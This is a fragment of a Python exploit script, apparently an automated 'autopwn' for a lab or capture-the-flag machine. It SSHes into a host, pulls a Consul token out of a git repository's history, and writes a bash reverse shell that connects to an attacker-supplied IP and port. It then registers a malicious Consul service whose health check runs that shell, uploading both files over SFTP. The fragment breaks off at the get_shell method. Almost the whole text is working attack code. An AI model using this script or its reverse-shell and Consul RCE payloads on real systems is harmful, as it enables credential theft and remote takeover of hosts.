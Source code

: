 ```python
							   username=user,
							   password=password)

			return ssh_client

		except Exception as error:
			exit('\n[x] Error: %s' % error)

	def get_consul_token(self, ssh_client):
		try:
			command = "cd /opt/my-app/ && git show" # path repository
			_stdin, _stdout, _stderr = ssh_client.exec_command(command)

			output = _stdout.read().decode('utf-8')
			token = findall(r'--token (.*?) ', output)[0]

			self.target_credentials['consul']['token'] = token

			log.success('Consul token -> {}'.format(token)); time.sleep(1)

		except Exception as error:
			exit('\n[x] Error %s:' % error)

	def prepare_files(self):
		# reverse shell file
		shell_data = "#!/bin/bash\n\n/bin/bash -i >& /dev/tcp/{}/{} 0>&1".format(self.args.ip, self.args.port)

		with open(self.shell_file, 'w') as file:
			file.write(shell_data)

			log.info('File created : {}'.format(self.shell_file)); time.sleep(1)

		# consul service RCE file
		json_data = {
			"ID": "autopwn_shell",
			"Name": "pwn",
			"Address": "127.0.0.1",
			"Port": 80,
			"Check": {
				"DeregisterCriticalServiceAfter": "90m",
				"Args": ["/bin/bash", f"/tmp/.{self.args.ip}/shell.sh"],
				"Interval": "10s",
				"Timeout": "86400s"
			}
		}

		json_obj = dumps(json_data, indent=4)

		with open(self.json_file, 'w') as file:
			file.write(json_obj)

			log.info('File created : {}'.format(self.json_file)); time.sleep(1)

	def upload_files(self, ssh_client):
		with ssh_client.open_sftp() as sftp_client:
			sftp_client.put(self.shell_file, '/tmp/.{}/{}'.format(self.args.ip, self.shell_file))
			sftp_client.put(self.json_file, '/tmp/.{}/{}'.format(self.args.ip, self.json_file))

			log.info('Uploaded files'); time.sleep(1)

	def get_shell(self):
		try:
```